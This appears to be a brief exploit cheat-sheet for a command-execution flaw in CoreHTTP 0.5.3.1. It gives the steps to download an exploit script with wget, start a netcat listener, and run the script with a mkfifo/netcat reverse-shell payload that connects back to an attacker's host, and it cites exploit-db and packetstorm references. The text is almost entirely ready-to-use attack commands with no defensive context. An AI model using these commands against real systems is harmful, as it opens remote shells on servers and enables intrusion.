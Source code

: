 ### download exploit
```
wget https://raw.githubusercontent.com/tobor88/Bash/master/corehttp-rev-shell.sh
```

### start listener
```
nc -nlvp <lport>
```

### run exploit
```
bash corehttp-rev-shell.sh -u 'http://<rhost>:<rport>/dev/foo.pl' -s 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <lhost> <lport> >/tmp/f'
```

References:  
https://www.exploit-db.com/exploits/10349  
https://packetstormsecurity.com/files/84212/CoreHTTP-0.5.3.1-Command-Execution.html  


